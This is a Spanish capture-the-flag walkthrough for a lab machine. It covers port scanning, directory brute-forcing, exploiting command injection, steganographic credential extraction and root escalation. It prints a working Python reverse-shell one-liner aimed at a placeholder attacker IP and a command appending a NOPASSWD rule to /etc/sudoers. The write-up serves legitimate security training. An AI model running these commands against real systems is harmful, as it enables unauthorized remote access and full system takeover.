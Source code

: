 ## 1. Enumeración

### Escaneo inicial con Nmap

Comenzamos con la fase de escaneo de puertos utilizando la herramienta `nmap`:

```bash
nmap -p- --open -n -Pn --min-rate 5000 -sCV -sS <IP-OBJETIVO> -oN <NOMBRE> -vvv
```

![Escaneo Nmap](imagenesb/bakugo1.png)

Como podemos observar, encontramos **dos puertos abiertos**:

- **80/tcp**: HTTP
- **22/tcp**: SSH

---

### 1.1 Enumeración del puerto 80 (HTTP)

Utilizamos `gobuster` para realizar fuerza bruta a los directorios:

```bash
gobuster dir -u http://<IP-OBJETIVO> -w /usr/share/wordlists/dirb/common.txt
```

Resultados iniciales:

![Gobuster directorios](imagenesb/bakugo2.png)

Encontramos el directorio `/assets`. Al ingresar, no se muestra nada útil.

Realizamos fuerza bruta dentro del directorio `assets`:

```bash
gobuster dir -u http://<IP-OBJETIVO>/assets -w /usr/share/wordlists/dirb/common.txt
```

![Gobuster en /assets](imagenesb/bakugo3.png)

Dentro del directorio `/assets`, encontramos un archivo `index.php`.

#### Enumeración con Dirsearch

Ejecutamos `dirsearch` para buscar más archivos o vulnerabilidades:

```bash
dirsearch -u http://<IP-OBJETIVO>/assets
```

![Dirsearch resultados](imagenesb/bakugo4.png)

Aquí detectamos una vulnerabilidad de **inyección de comandos** en `index.php`.

---

### 1.2 Explotación de la vulnerabilidad

Al interactuar con la vulnerabilidad, encontramos texto codificado en **Base64**. Usamos `CyberChef` para decodificarlo.

![Decodificación en CyberChef](imagenesb/bakugo7.png)

Una vez entendida la vulnerabilidad, procedemos a subir una **reverse shell** en Python:

```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<TU_IP>",<PUERTO>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

![Subida de reverse shell](imagenesb/bakugo8.png)

Logramos obtener acceso a la máquina.

---

### 1.3 Búsqueda de información

#### Archivos interesantes

Al explorar la máquina, encontramos un directorio con imágenes:

![Directorio de imágenes](imagenesb/bakugo9.png)

Copiamos las imágenes a nuestra máquina para analizarlas:

```bash
scp usuario@<IP-OBJETIVO>:/ruta/a/las/imagenes .
```

#### Contraseñas codificadas

También encontramos un archivo con una contraseña codificada en Base64:

![Contraseña codificada](imagenesb/bakugo11.png)

Decodificamos la contraseña:

```bash
echo "<contraseña-codificada>" | base64 -d
```

---

### 1.4 Análisis de imágenes

Al analizar la imagen `0neforall.jpg`, observamos que tiene un error. Usamos `hexeditor` para inspeccionar su contenido:

```bash
hexeditor 0neforall.jpg
```

![Hexeditor muestra error](imagenesb/bakugo13.png)

El encabezado indica que la imagen es de formato PNG. Corregimos el error cambiando el encabezado a JPG.

![Imagen corregida](imagenesb/bakugo14.png)

#### Extracción con Steghide

Usamos `steghide` para extraer datos ocultos de la imagen:

```bash
steghide extract -sf 0neforall.jpg
```

![Extracción con Steghide](imagenesb/bakugo16.png)

Obtenemos el usuario y contraseña para acceder al servicio SSH.

---

### 2. Conexión por SSH y escalada de privilegios

Nos conectamos por SSH con las credenciales extraídas:

```bash
ssh usuario@<IP-OBJETIVO>
```

![Conexión SSH](imagenesb/bakugo17.png)

#### Escalada de privilegios

Identificamos que el usuario puede ejecutar un script con privilegios elevados. Modificamos el archivo `sudoers` para agregar nuestro usuario con privilegios de superusuario:

```bash
deku ALL=NOPASSWD: ALL >> /etc/sudoers
```

Finalmente, obtenemos acceso como **root** y la segunda bandera.

![Acceso root](imagenesb/bakugo18.png)

---

### Conclusión

Hemos completado el acceso inicial, la explotación y la escalada de privilegios, logrando obtener las banderas requeridas. ¡Buen trabajo!

